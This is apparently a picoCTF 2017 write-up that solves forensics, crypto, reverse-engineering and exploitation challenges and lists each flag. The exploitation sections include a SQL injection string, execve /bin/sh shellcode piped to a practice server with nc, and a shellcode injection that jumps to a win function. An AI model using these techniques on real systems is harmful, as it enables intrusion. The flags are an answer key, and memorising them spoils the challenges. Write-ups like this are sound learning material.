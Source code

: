 # Forensics

## Meta Find Me
Use som program to find meta data about the image and look for comments and GPS coordinates.

The flag is

`flag_2_meta_4_me_40_124_affa`

---

# Cryptography

## SoRandom
Just reverse the algorithm.

The flag is
`FLAG:3b1fa718577cd90efb2fdf5832b6a849`

---

## LeakedHashes
Take one of the hashes, do some Google fu, find the pre-image (no, hashes can *not* be decrypted or decoded...)

The flag is

`18e27fcac2c4b21329e0b118898794c0`

---

## Weird RSA
Using the Chinese Remainder theorem, we can compute the private key and decrypt the message. Then we convert the number into the corresponding ascii values.

The flag is

`Theres_more_than_one_way_to_RSA`

---

# Reverse Engineering

## A Thing Called the Stack
The return address lies right above the saved stack frame (ebp). Then, we have 4 push instructions that pushes 4 bytes each. Next we have the sub instruction that moves the stack pointer 0xf8 bytes further. In total, the distance between the esp and the return address is 264.

The flag is

`0x108`

---

## Programmers Assemble
To get out of the loop, eax must be zero. each round, ebx is incremented by 5 (the value of ecx). In the _fin_ function, we need ebx to be 0x8f2f. Thus, we must have run the loop for a fifth, i.e. 7331 number of times. We must load eax with this value, in hex.

The flag is

`0x1ca3`

---

# Web Exploitation

## My First SQL
Just a simple SQL injection a la

`' OR '1'='1`

The flag is

`be_careful_what_you_let_people_ask_1b3db77df6b116a38db8ceb7c81cb14c`

---

# Binary Exploitation

## Shellz
Find shellcode to run /bin/sh and inject. To keep netcat open, add a `cat -`.

`(python2 -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'; cat -) | nc shell2017.picoctf.com 12562`

Then, run `cat flag.txt`

The flag is

`f6f01bf0649b5aa5ec299bb51c8f8db4`

---

## Shells
We need to inject instructions to call the "win()" function. Radare2 tells us that the function
is located at address `0x08048540`.
An easy way is to just add the value to a register and call it:

```
mov eax, 0x08048540
call eax
```

Radare2 gives us the following:

```
rasm2 -a x86 -b 32 'mov eax, 0x08048540; call eax'
b840850408ffd0
```

Save the raw bytes to a file, then run

`cat input| nc shell2017.picoctf.com 58279`

The flag is

`84f1e856de605076057b0687dfd0865f`

---

## Guess The Number
So, this is about number representation. Radare2 shows that the "win()" function is 
located at address `0x0804852b`. The entered number is interpreted in base 10 and later divided
by 16. That means in order to get the address after division, we need to enter `2152223408`.
The problem is that `strtol()` returns a signed int. The range for this is `[-2**31, 2**31-1]`,
so the number entered will overflow. The solution is to enter the corresponding negative number,
which is

`-2**31 + 2152223408 - (2**31-1) = -2142743887`

The flag is

`d1ec8d4078eac1112548c1a6a00cfe07`

---
